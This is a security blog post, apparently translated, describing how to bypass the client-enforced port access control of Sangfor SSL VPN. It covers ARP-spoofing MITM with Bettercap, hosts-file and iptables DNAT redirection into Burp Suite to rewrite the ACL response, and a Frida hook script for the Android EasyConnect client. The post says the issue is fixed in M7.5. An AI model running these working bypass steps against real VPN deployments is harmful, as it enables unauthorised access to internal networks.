

Preface
First, a disclaimer: this is an old issue. To fix it, you only need to upgrade to M7.5. Some time ago, I happened to see someone in a security chat talking about bypassing the ACL of Sangfor SSL VPN. I’d wanted to try it myself, but the only reference I could find online was this post from two years prior: Bypassing Sangfor SSL VPN access control with Burp. Unfortunately, the author heavily mosaicked the screenshots, leaving very little useful information, and I could barely understand what they were doing.
So I spent some time digging into it. It’s not as complicated as that post made it sound—it’s essentially a man-in-the-middle attack: after the server returns the ACL list, you replace the port range. The client enforces access control on ports, and the server enforces access control on IPs. The original reporter also raised the question of whether IP restrictions could be bypassed, but that part wasn’t validated or explained. The comments were full of “worship”, which made me think IP-based access control could also be bypassed.
You could also hook the client to bypass its port enforcement, but that’s more work. Even though this is a simple topic, I picked up a few practical tricks during the process, so I’m recording them here.
Network Layer
I tried three methods, all of which require Burp Suite. Since this is a MITM attack, Burp needs to run in invisible (transparent) proxy mode.

Method 1: Bettercap
Bettercap is a MITM tool for real-world engagements, but it’s the least stable in a white-box lab setup.
- Client host: Sangfor SSL VPN
- MITM host: Bettercap + Burp Suite
bettercap -I ens38 -G 192.168.1.1 -T target_ip -S ARP --custom-proxy burp_suite_ip --custom-proxy-port 8080
The VPN server port is 443, so you need to redirect port 443 to Burp’s 8080. Of course, you can also run Burp as root and listen on 443 directly, which avoids the redirection.
sudo bettercap -I ens38 -G 192.168.1.1 -T target_ip -S ARP --custom-proxy burp_suite_ip --custom-proxy-port 8080 --custom-https-proxy burp_suite_ip --custom-https-proxy-port 8080 --custom-redirection "TCP 443 8080"

Method 2: hosts
Environment:
- Client host: Sangfor SSL VPN
- MITM host: Bettercap + Burp Suite
You can also modify hosts directly, but Burp’s listening port must match the VPN port.
echo "target_ip vpn.test.com" >> /etc/hosts
Method 3: Destination NAT
This method is the most stable, applies to many scenarios, and works well when the client host cannot use a local proxy:
- The client checks and does not allow a system proxy.
- After enabling VPN on Android, the proxy setting in Wi‑Fi network settings becomes ineffective.
Sangfor VPN has poor Linux compatibility, so the client typically runs on Windows or mobile. It’s best to separate the gateway from the client host. Environment:
- Client host: with Sangfor SSL VPN installed
- MITM host: Burp Suite
- MITM gateway: iptables
# 开启IPv4内核转发
echo 1 > /proc/sys/net/ipv4/ip_forward
iptables -F
iptables -X
iptables -t nat -F
iptables -t nat -X
iptables -t mangle -F
iptables -t mangle -X
iptables -t raw -F
iptables -t raw -X
iptables -t security -F
iptables -t security -X
iptables -P INPUT ACCEPT
iptables -P FORWARD ACCEPT
iptables -P OUTPUT ACCEPT
# 假设客户端主机网段是192.168.1.0/24，客户端主机通过中间人网关机的eth0上网
iptables -t nat -A POSTROUTING -s 192.168.1.0/24 -o eth0 -j MASQUERADE
# 当访问VPN服务器的地址vpn_server_ip:443时，目标地址转换成burp_suite_ip:8080
iptables -t nat -A PREROUTING -d vpn_server_ip -p tcp --dport 443 -j DNAT --to-destination burp_suite_ip.:8080
Follow-up steps
First, set up Burp’s replacement rule.

Then, start logging into the VPN.

After the /por/rclist.csp request finishes, immediately disable Burp proxying; otherwise traffic becomes too slow and the VPN disconnects. After disabling Burp, the network connection can still stay up.
Method 3 is the most convenient here because you don’t need to touch the client host; Method 2 is more annoying; Method 1 may introduce delays.

At this point, the client receives an ACL table whose port range has been tampered with.

First, check that the PREROUTING rule number in the NAT table is 1.
> iptables -t nat -L --line-number
Chain PREROUTING (policy ACCEPT)
num target prot opt source destination
1 DNAT tcp -- anywhere vpn_server_ip tcp dpt:https to:burp_suite_ip:8080
Delete it, and you can bypass the client-side port ACL.
iptables -t nat -D PREROUTING 1
Application Layer
I only tested this on Android. The client was not protected/obfuscated, so it was fairly convenient.
Open EasyConnect with jadx, then search for the keyword rclist.csp.

Follow the references until you find a suitable place to hook the server’s response.


Then write a hook script to set the port range to the maximum, and save it as 2.js.
function hookIt()
{
var rclist=Java.use("com.sangfor.vpn.client.service.d.a");
rclist.a.overload('java.lang.String').implementation=replacePorts;
}
function replacePorts(str)
{
str = str.replace(/port="[^\"]+"/g, 'port="1~65535"');
console.log("str replaced: " + str);
var result = this.a(str);
return result;
}
Java.perform(hookIt);
My Android device is 64-bit and rooted. Start the Frida service via adb:
adb push frida-server-10.7.6-android-arm64 /data/local/tmp/
adb shell chmod 755 /data/local/tmp/frida-server-10.7.6-android-arm64
adb shell su -c /data/local/tmp/frida-server-10.7.6-android-arm64
Use frida-ps to find EasyConnect’s process name:
frida-ps -aU | grep sangfor

Run Frida and specify the hook script and process name:
frida -U -l 2.js com.sangfor.vpn.client.phone

You can see the port range has been modified.
In real engagements, the steps above are pretty cumbersome. You could also build an “unrestricted” client using Sangfor SSL VPN’s SDK, but that’s too much work just to bypass port restrictions. At that point you might as well compromise a few more servers and pivot into the internal network directly.
 CC BY-NC-SA 4.0
CC BY-NC-SA 4.0